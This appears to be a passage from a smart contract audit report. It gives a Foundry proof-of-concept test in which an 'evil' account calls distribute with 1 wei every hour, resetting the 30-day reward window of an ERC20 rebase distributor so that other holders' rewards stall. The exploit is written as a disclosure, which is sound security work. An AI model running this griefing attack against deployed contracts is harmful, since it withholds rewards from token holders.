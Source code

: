  ## POC
 Here we write two tests for you to see the impact of the vulnerabilty
 
 * first to show normal distribution and
 * second to show the effect of spammed distribution
 
 Add the test cases to the to the `ERC20RebaseDistributor.t.sol` file and
 
 * run `forge test --match-test testBrickedEnterRebase -vv`
 * run `forge test --match-test testNormalEnterRebase -vv`
 
 ## attack CASE
 Under attack run `forge test --match-test testBrickedEnterRebase -vv`
 
 ```solidity
 function testBrickedEnterRebase() public {
         address evil = makeAddr("evil");
         address bob = makeAddr("bob");
 
         token.mint(bobby, 1500e18);
         token.mint(alice, 100e18);
         token.mint(bob, 100e18);
         token.mint(evil, 1e18);
 				
         //alice enters rebase
         vm.prank(alice);
         token.enterRebase();
 				
         //bob enters rebase
         vm.prank(bob);
         token.enterRebase();
 
         // add 150 tokens to distribute as rewards
         vm.prank(bobby);
         token.distribute(150e18);
 
         vm.startPrank(evil);
 
         uint256 curBlock = 1679067867;
 				
         // // callin gdistribute every 1 hour with 1 wei
         uint interval = 1 hours;
         
         emit log_named_decimal_uint("Alice Balance at the begining 30 days-->", token.balanceOf(alice), 18);
         emit log_named_decimal_uint("Bob Balance at the begining 30 days-->", token.balanceOf(bob), 18);
 
         for (uint i = 0; i < (30 days / interval); i++) {
             curBlock += interval;
             vm.warp(curBlock);
 						
 						// this resets the distribution time(30 days) on every call
             token.distribute(1);
             
         }
         
 
         emit log_named_decimal_uint("Alice Balance After 30 days-->", token.balanceOf(alice), 18);
         emit log_named_decimal_uint("Bob Balance After 30 days-->", token.balanceOf(bob), 18);
     }
 ```
 
